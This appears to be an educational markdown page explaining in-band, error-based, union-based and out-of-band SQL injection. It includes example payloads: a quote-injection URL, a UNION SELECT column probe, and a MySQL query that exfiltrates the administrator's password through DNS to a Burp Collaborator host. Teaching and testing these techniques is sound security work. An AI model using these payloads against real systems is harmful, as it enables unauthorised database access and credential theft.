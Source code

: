 ## In-band SQLi
In-band SQL Injection occurs when an attacker can use the same communication channel to launch the attack and gather results.

## Error based
Error-based injections give insight into the database. These errors can be helpful to developers and network administrators but must be restricted on the application side.

Example: If the server responds to this URL with an SQL error, it shows the server has connected to the database in an insecure way. After this step, some of the SQL commands can be run to tamper or destroy the database.

```https://www.example.com/category.php?id=2'```

## Union-based
It is a type of injection that combines the results of two or more ```SELECT``` statements into a single result using the ```UNION``` operator to get more information from the database.

Example: The below example shows an attacker can get the number of columns using this type of injection attack.

```https://example.com/category.php?id=3 'UNION+SELECT+NULL,NULL,NULL--```

## Out-of-band SQLi
Out-of-band SQL injection occurs when an attacker is unable to use the same channel to launch the attack and gather results. The database server can send data to an attacker with the ability to make DNS or HTTP requests.

![image](https://github.com/user-attachments/assets/251b917b-35db-41ab-8923-544104ce28d4)

Suppose that the application’s response does not depend on whether the query returns any data, or whether a database error occurs, or the time taken to execute the query. We can trigger out-of-band network interactions for this application that we control. These can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. Moreover, various network protocols can be used to leak data from network interactions.

The visual here shows that the query was sent to the application’s database via the web application. At that time, the listening server on the network captures information of some DNS and HTTP interactions of database out band requests. We can use Burp Collaborator while using out-of-band techniques. Burp Collaborator allows you to detect when network interactions occur because of sending individual payloads to a vulnerable application and lists the DNS, HTTP Protocols interactions. Burp Collaborator is built into Burp Suite. The techniques for triggering a DNS query are highly specific to the type of database being used. For example, the query used in the next example triggers the target MySQL database.

Example: DNS Based Exfiltration

```SELECT+password+FROM+users+WHERE+username%3d'administrator INTO OUTFILE '\\\\ qwqdu0hle7fue507e75dfaenler4ft.burpcollaborator.net\a'```

![image](https://github.com/user-attachments/assets/ec0fd689-8342-4d47-9154-5270a5451bc0)

OOB SQL injection data could exfiltration from an outbound channel using DNS or HTTP protocol. In this example, the DNS protocol was used, and the Burp Collaborator server is used to listening and capturing outbound requests initiated from the database system. This query was created thinking of the target database is MySQL. This query reads the password for the Administrator user, appends a Collaborator subdomain, and triggers a DNS lookup. The DNS lookup result will be like the following, we could see the password that belongs to the administrator.

The following items may cause to use OOB injection:

- Lack of input validation in web applications.
- Target database in a network environment that allows sending outgoing requests (DNS, HTTP) without security restrictions.
```